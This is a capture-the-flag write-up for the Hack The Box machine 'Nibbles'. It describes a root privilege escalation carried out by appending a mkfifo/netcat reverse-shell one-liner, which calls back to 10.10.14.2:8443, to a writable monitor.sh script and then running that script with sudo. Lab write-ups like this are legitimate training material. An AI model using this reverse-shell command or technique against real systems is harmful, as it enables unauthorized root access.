 # Nibbles Privilege Escalation

We initiated the privilege escalation by extracting the contents of the personal.zip file and reviewing its contents.

<img width="466" height="211" alt="image" src="https://github.com/user-attachments/assets/e3adea7c-d4d0-4124-b8b2-9168f28e9f48" />

After extracting the personal.zip file, we discovered a monitor.sh script owned by the user 'nibbler' that is used for monitoring purposes and is modifiable.

Next, we sourced a reverse shell payload from HTB Academy:
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
This payload was appended to monitor.sh to facilitate establishing a reverse shell connection.

<img width="1011" height="553" alt="image" src="https://github.com/user-attachments/assets/e5bbea0d-da71-40f7-80a1-117e1225bddc" />

Disclaimer: It is crucial that when exploiting a writable file for privilege escalation, we only append to the end of the file—after creating a backup—to avoid overwriting its original content and causing service disruption.

We executed the script with elevated privileges using sudo ./monitor.sh, while simultaneously running a Netcat listener, which allowed us to obtain a root shell.

<img width="722" height="197" alt="Screenshot 2025-08-24 161515" src="https://github.com/user-attachments/assets/1db0b916-1580-4ca3-a0f6-8efde490ff0e" />

<img width="397" height="192" alt="image" src="https://github.com/user-attachments/assets/ec7c9111-6cb2-4a33-ab52-79269fc33780" />


